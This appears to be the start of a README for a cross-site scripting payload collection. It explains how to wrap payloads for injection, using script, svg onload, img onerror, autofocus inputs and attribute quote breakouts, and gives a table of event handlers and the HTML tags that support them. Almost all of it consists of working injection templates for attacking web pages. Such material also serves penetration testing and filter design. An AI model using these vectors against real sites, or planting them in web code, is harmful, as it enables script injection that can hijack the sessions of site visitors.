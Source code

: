 <br/>

---

<br/>

# First things first

Some of the payloads described below are already wrapped in HTML which puts the payload in JavaScript context, but you can of course change the HTML element used. Other payloads need wrapping, as indicated for each. Possible ways to execute a payload are:

* If injection ends up outside of an HTML tag:
  * `<script>`**_payload_**`</script>`
  * `<svg/onload="`**_payload_**`"/>`
  * `<img/onerror="`**_payload_**`"/src=x>`
  * `<style/onload="`**_payload_**`"></style>`
  * `<input/onfocus="`**_payload_**`"/autofocus>`
  * `<marquee/onstart="`**_payload_**`"></marquee>`
  * `<div/onwheel="`**_payload_**`"/style="height:200%;width:100%"></div>`
  * `<div/onmouseover="`**_payload_**`"/style="height:100%;width:100%"></div>`
  * ... many more, see below table for event attributes and supported tags
* If injection ends up inside an HTML tag's attribute:
  * `" `**_event_**`="`**_payload_**
  * `' `**_event_**`='`**_payload_** *(replace single quotes in payload with double quotes)*

## Event handlers

Possible events and the supported HTML tags are:

| event         | supported HTML tags |
|---------------|---------------------|
| onload        | body, frame, frameset, iframe, img, input type="image", link, script, style |
| onchange      | input type="checkbox", input type="file", input type="password", input type="radio", input type="range", input type="search", input type="text", select, textarea |
| onkeyup       | **all except** base, bdo, br, head, html, iframe, meta, param, script, style, title |
| onmouseover   | &#x2014;"&#x2014; |
| onblur        | &#x2014;"&#x2014; |
| onfocus       | &#x2014;"&#x2014; |
| onclick       | &#x2014;"&#x2014; |
| onmouseover   | &#x2014;"&#x2014; |
| onmouseout    | &#x2014;"&#x2014; |
| oncontextmenu | **all, but it can only be triggered if the element has a non-zero size on the page, and is not covered by other elements** |
| onwheel       | &#x2014;"&#x2014; |
| ondrag        | &#x2014;"&#x2014; |
| ondrop        | &#x2014;"&#x2014; |
| oncopy        | &#x2014;"&#x2014; |
| oncut         | &#x2014;"&#x2014; |
| onpaste       | &#x2014;"&#x2014; |
| onscroll      | address, blockquote, body, caption, center, dd, dir, div, dl, dt, fieldset, form, h1&#x2014;h6, html, li, menu, object, ol, p, pre, select, tbody, textarea, tfoot, thead, ul |
| oninvalid     | input |